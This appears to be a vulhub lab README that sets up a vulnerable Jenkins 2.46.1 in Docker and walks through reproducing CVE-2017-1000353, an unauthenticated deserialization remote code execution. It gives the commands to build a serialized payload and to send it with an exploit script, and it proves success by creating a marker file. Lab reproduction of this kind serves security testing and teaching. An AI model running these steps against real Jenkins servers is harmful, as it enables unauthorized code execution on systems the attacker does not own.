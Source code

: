 # Jenkins Remote Code Execution (CVE-2017-1000353)

[中文版本(Chinese version)](README.zh-cn.md)

Jenkins is a popular open-source automation server.

Jenkins versions 2.56 and earlier as well as 2.46.1 LTS and earlier are vulnerable to an unauthenticated remote code execution. An unauthenticated remote code execution vulnerability allowed attackers to transfer a serialized Java `SignedObject` object to the Jenkins CLI, that would be deserialized using a new `ObjectInputStream`, bypassing the existing blacklist-based protection mechanism.

References:

- <https://www.jenkins.io/security/advisory/2017-04-26/>
- <https://www.exploit-db.com/exploits/41965>

## Environment Setup

Execute the following command to start Jenkins 2.46.1:

```
docker compose up -d
```

After the server is fully started, visit `http://your-ip:8080` to access Jenkins. No manual installation is required.

## Vulnerability Reproduction

The exploitation process involves two steps: generating a malicious serialized payload and sending it to the target Jenkins server.

First, download the [CVE-2017-1000353-1.1-SNAPSHOT-all.jar](https://github.com/vulhub/CVE-2017-1000353/releases/download/1.1/CVE-2017-1000353-1.1-SNAPSHOT-all.jar) tool to generate the payload. This tool will create a serialized object containing our command:

```bash
java -jar CVE-2017-1000353-1.1-SNAPSHOT-all.jar jenkins_poc.ser "touch /tmp/success"
# jenkins_poc.ser is the output file name
# "touch ..." is the command to be executed
```

**Note**: The Java version used for payload generation is crucial. OpenJDK 8u292 is recommended, as other Java versions might not generate a working payload. If you encounter issues, you can use the following command to generate the payload using Docker:

```bash
docker run --rm -v $(pwd):/tmp openjdk:8u292 bash -c "cd /tmp && java -jar CVE-2017-1000353-1.1-SNAPSHOT-all.jar jenkins_poc.ser \"touch /tmp/success\""
```

After execution, a file named `jenkins_poc.ser` will be generated containing the serialized payload.

Next, download the [exploit.py](https://github.com/vulhub/CVE-2017-1000353/blob/master/exploit.py) script and execute it with Python 3 to send the payload:

```bash
python exploit.py http://your-ip:8080 jenkins_poc.ser
```

![Sending the exploit payload](1.png)

To verify the successful exploitation, check inside the container for the created file:

![Verification of command execution](2.png)

The presence of `/tmp/success` file confirms that the remote code execution was successful.
